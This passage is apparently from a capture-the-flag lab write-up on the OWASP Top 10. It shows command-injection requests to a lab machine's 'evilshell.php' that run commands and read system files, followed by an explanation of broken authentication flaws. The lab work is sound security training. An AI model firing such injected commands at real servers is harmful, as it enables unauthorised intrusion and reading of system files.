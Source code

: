 `/usr/sbin/nologin`

5. What version of Ubuntu is running?

`http://10.10.175.234/evilshell.php?commandString=lsb_release+-a`

```
Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic 
```

`18.04.4`

6. Print out the MOTD.  What favorite beverage is shown?

`http://10.10.175.234/evilshell.php?commandString=cat+%2Fetc%2Fupdate-motd.d%2F00-header`

```
#!/bin/sh # # 00-header - create the header of the MOTD # Copyright (C) 2009-2010 Canonical Ltd. # # Authors: Dustin Kirkland # # This program is free software; you can redistribute it and/or modify # it under the terms of the GNU General Public License as published by # the Free Software Foundation; either version 2 of the License, or # (at your option) any later version. # # This program is distributed in the hope that it will be useful, # but WITHOUT ANY WARRANTY; without even the implied warranty of # MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the # GNU General Public License for more details. # # You should have received a copy of the GNU General Public License along # with this program; if not, write to the Free Software Foundation, Inc., # 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. [ -r /etc/lsb-release ] && . /etc/lsb-release if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then # Fall back to using the very slow lsb_release utility DISTRIB_DESCRIPTION=$(lsb_release -s -d) fi printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)" DR PEPPER MAKES THE WORLD TASTE BETTER! 
```

`DR PEPPER`

## [Task 7] [Day 2] Broken Authentication 

![](https://i.imgur.com/49p4BkI.png)

Authentication and session management constitute core components of modern web applications. Authentication allows users to gain access to web applications by verifying their identities. The most common form of authentication is using a username and password mechanism. A user would enter these credentials, the server would verify them. If they are correct, the server would then provide the users’ browser with a session cookie. A session cookie is needed because web servers use HTTP(S) to communicate which is stateless. Attaching session cookies means that the server will know who is sending what data. The server can then keep track of users' actions.

If an attacker is able to find flaws in an authentication mechanism, they would then successfully gain access to other users’ accounts. This would allow the attacker to access sensitive data (depending on the purpose of the application). Some common flaws in authentication mechanisms include:

* Brute force attacks: If a web application uses usernames and passwords, an attacker is able to launch brute force attacks that allow them to guess the username and passwords using multiple authentication attempts.
* Use of weak credentials: web applications should set strong password policies. If applications allow users to set passwords such as ‘password1’ or common passwords, then an attacker is able to easily guess them and access user accounts. They can do this without brute forcing and without multiple attempts.
* Weak Session Cookies: Session cookies are how the server keeps track of users. If session cookies contain predictable values, an attacker can set their own session cookies and access users’ accounts. 
